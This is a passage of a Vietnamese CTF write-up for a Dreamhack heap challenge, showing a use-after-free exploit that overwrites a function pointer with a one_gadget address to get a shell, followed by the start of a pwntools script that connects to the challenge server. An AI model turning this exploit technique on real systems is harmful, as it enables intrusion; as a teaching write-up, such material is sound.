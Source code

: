 - **Stage 2: tạo shell** 

đến đây thì có vẻ đơn giản rồi vì ta chỉ cần lợi dụng lỗi UAF để gán giá trị của Age là one_gadget vào fptr để tạo shell thôi

```python
# Stage 2: tạo shell

one_gadget = libc.address + 0x10a41c 

# Human
p.sendlineafter(b'> ', b'1')
p.sendlineafter(b'Weight: ', b'1') 
p.sendlineafter(b'Age: ', str(one_gadget)) # Age = one_gadet

# robot
p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Weight: ', b'1')
# fptr = Age = one_gadget

p.interactive()

```

chạy thử xem sao 

![image](https://github.com/gookoosss/CTF/assets/128712571/cfa19eb4-e834-49d1-abde-261e16c4b39d)


tuyệt vời, và ta có flag rồi

## script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./uaf_overwrite_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")
context.binary = exe
p = process([exe.path])
        
# gdb.attach(p, gdbscript = '''
# b*custom_func+266
# b*robot_func+120
# c
# ''')

# input()
 
p = remote("Host3.dreamhack.games", 9835)

# Stage 1: leak libc 

# tạo 1 chunk cần free nhưng không free
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
p.sendlineafter(b'idx: ', b'10') # index đã lớn hơn 9 nên ko free

# tạo 1 chunk ngăn cách và free chunk trên 
p.sendlineafter(b'> ', b'3')
p.sendlineafter(b'Size: ', str(0x500))
p.sendafter(b'Data: ', b'a')
```